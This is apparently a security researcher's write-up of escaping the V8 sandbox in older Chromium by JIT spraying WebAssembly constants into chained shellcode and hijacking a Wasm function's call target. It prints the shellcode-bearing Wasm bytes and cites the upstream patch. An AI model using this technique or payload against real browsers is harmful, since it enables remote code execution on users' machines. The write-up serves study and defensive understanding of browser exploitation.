 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5216.6)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.

## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).

![](img/3.png)

![](img/4.png)

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```

![](img/5.png)

`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/6.png)

![](img/7.png)

If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat) [`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:

![](img/8.png)

![](img/9.png)

![](img/10.png)

`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)

![](img/11.png)

## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26, 2022)
> 
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.
